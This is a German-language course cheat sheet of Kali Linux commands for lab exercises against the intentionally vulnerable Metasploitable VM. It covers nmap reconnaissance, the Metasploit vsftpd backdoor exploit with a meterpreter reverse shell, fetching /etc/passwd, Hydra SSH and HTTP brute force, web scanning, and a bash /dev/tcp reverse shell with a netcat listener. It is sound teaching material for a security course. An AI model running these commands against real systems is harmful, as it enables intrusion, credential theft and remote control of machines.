 # ITSE – Kali & Metasploitable Codesammlung

Dieses Dokument enthält wichtige Befehle, die im Unterricht und bei Laborübungen
mit **Kali Linux** und **Metasploitable** nützlich sind.  
Es dient als schnelle Referenz für Scans, Exploits und typische Angriffe.

---

## 🕵️‍♂️ 1. Netzwerkscan & Recon
```bash
# Aktive Hosts im Subnetz finden
nmap -sn 192.168.56.0/24

# Detail-Scan auf spezifischem Host (OS, Services, Versionen)
nmap -A 192.168.56.101

# Schneller Scan der Top-1000 Ports
nmap -T4 -F 192.168.56.101
```

---

⚡ 2. Metasploit Basics
```bash
# Metasploit starten
msfconsole

# Exploit suchen
search vsftpd

# Exploit laden
use exploit/unix/ftp/vsftpd_234_backdoor

# Ziel setzen
set RHOST 192.168.56.101

# Payload wählen (Reverse Shell)
set PAYLOAD linux/x86/meterpreter/reverse_tcp
set LHOST 192.168.56.1
set LPORT 4444

# Angriff starten
exploit
```

---

💻 3. Meterpreter Essentials
```bash
# Offene Sessions anzeigen
sessions

# Mit Session verbinden
sessions -i 1

# Systeminfos auslesen
sysinfo

# Shell auf Zielsystem öffnen
shell

# Dateien hochladen/herunterladen
download /etc/passwd
upload localfile.txt /tmp/
```

---

🔑 4. Passwortangriffe
```bash
# Hydra – SSH Brute Force
hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://192.168.56.101

# HTTP Basic Auth Attacke
hydra -l admin -P passwords.txt 192.168.56.101 http-get /protected
```

---

🌐 5. Web-Scanning & Schwachstellen
```bash
# Nikto – Webserver-Schwachstellen finden
nikto -h http://192.168.56.101

# Dirb / Gobuster – Versteckte Verzeichnisse finden
gobuster dir -u http://192.168.56.101 -w /usr/share/wordlists/dirb/common.txt
```

---

🐧 6. Nützliche Linux Kommandos
```bash
# IP-Adresse der Kali VM anzeigen
ip a

# Aktuellen Benutzer anzeigen
whoami

# Dienste und offene Ports prüfen
netstat -tulpn
```

---

🔄 7. Reverse Shell Beispiele
```bash
# Netcat Listener auf Angreifer
nc -lvnp 4444

# Reverse Shell auf Ziel (wenn möglich)
bash -i >& /dev/tcp/192.168.56.1/4444 0>&1
```

